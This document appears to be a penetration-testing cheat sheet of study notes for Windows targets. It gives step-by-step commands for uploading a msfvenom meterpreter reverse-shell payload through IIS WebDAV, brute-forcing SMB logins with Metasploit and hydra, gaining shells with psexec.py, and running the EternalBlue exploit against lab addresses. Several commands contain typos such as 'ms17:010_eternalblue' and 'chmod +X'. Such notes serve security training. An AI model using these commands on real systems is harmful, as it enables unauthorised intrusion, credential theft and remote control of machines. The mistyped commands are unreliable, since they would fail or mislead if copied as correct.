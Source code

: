 _with metasploit_

1.  scan first to check if IIS Web DAV is there
2.  create your own payload with msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=1234 -f asp > shell.asp`
3.  open cadaver and connect to the webdav: `cadaver http://10.10.x.x/webdav` , then upload the shell file: `put /root/shell.asp`
4.  start postgres server and msfconsole: `service postgresql start && msfconsole`.
5.  msfconsole: `use multi/handler` , `set payload /windows/meterpreter/reverse_tcp `, `set LHOST and LPORT`(same as shell.asp), hit `run`
6.  open browser and click on the shell.asp file that was uploaded
7.  find what you are looking for.
8.  _You can use a metaasploit script for automating all of it_. in msfconsole `search iis upload`, looking for exploit/windows/iis/iis_webdav_upload_asp

### Exploiting SMB with PsExec

- user authentication
- share authentication

1. nmap sca `nmap -sV -sC 10.10.x.x`
2. smb brute force, start msfconsole: `service postgresql start && msfconsole`
3. msfconsole: `serach smb_login` and use.
4. set options:
   - `set RHOSTS`,
   - `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`,
   - `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_user.txt`,
   - `set VERBOSE false` < - for only succeced attempts
5. use psexec.py to login with found credentials, if not executable use: `chmod +X` first: `psexec.py Administrator@10.10.x.x cmd.exe`, fill in the passwords
6. !! look at exploiting SMB for more stuff on psexec

_use psexec with metasploit_

1. in msfconsole search: `search psexec`, looking for`exploit/windows/smb/psexec`, fill in options
   
### Exploiting SMB 
1. brute force: `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_paswords.txt 10.10.x.x smb`
2. when found creds: `smbclient -L 10.10.x.x -U username`
3. OR/AND: `smbmap -u username -p password -H 10.10.x.x`
4. OR use enum4linux: `enum4linux -u username -p password -U 10.10.x.x`
5.  in msfconsole: `search smb_enumusers` -> `use auxiliary/scanner/smb/smb_enumusers` -> `set RHOSTS` -> `set SMBUser` -> `set SMBPass` -> `run`
6.  PsExex: `locate psexec.py` -> `cp /usr/share/doc/python3-impacket/examples/psexec.py .` -> `chmod +X` -> `python3 psexec.py Administrator@10.10.x.x`

### Eternal Blue
- you can first check if target is vulnerable by: `msfconsole` -> `search eternalblue` --> use the auxilary scanner: `auxiliary/scanner/smb/smb_ms17_010` 
1. nmap script to check if internal blue `sudo nmap -sV -p 445 --script=smb-vuln-ms17.010 10.10.x.x`
2. msfconsole: `search eternalblue`
3. `use exploit/windows/smb/ms17:010_eternalblue`
4. set options -> run
5. `sysinfo`, `getuid`
